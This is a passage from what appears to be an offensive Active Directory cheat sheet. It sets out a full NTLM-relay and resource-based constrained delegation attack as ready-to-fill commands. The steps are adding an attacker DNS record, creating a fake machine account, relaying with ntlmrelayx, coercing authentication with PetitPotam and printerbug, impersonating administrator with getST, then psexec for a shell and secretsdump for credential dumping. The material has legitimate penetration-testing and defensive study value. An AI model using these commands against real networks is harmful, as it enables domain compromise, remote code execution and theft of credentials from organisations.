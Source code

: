 ````
</searchConnectorDescription>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
import-module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Start NTLMRelay
```
sudo ntlmrelayx.py -t ldap://<DC IP> --http-port 8080 --delegate-access --escalate-user FAKE01$
```

#### Trigger target to authenticate to attacker machine
- Use hostname we created in the DNS record
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@8080/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@8080/a
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound). Maybe another command to check if user is admin on a machine? Is that possible? We should check!
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

### Change lockscreen
- Requirements:
  - Low priv shell on a machine
````